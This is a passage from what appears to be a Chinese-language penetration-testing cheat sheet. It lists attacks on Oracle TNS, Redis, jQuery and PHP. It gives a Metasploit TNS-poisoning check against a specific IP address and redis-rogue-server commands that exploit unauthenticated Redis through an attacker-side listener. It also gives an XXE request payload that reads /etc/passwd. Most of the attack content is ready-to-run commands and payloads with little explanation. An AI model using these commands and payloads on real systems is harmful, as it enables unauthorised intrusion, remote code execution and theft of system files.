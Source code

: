 ```
use auxiliary/scanner/oracle/tnspoison_checker
set rhosts 173.16.37.21
run
```

两者都测试一下。

### Redis

> Redis未授权访问漏洞

**Windows** https://github.com/No-Github/redis-rogue-server-win

```bash
python3 redis-rogue-server.py --rhost <目标地址> --rport 6379 --lhost <本地地址> --lport 8888
```

**linux**

https://github.com/n0b0dyCN/redis-rogue-server

```bash
python3 redis-rogue-server.py --rhost <目标地址> --lhost <本地地址>
```

![](img/redis.png)

## 开发框架漏洞

### Jquery

https://github.com/mahp/jQuery-with-XSS

https://vulnerabledoma.in/jquery\_htmlPrefilter\_xss.html

## 开发语言漏洞

### PHP

#### PHP-XXE

Libxml2.9.0 以后 ，默认不解析外部实体，对于PHP版本不影响XXE的利用 `dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞

```
/dom.php
/SimpleXMLElement.php
/simplexml_load_string.php
```

```
POST /dom.php HTTP/1.1

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
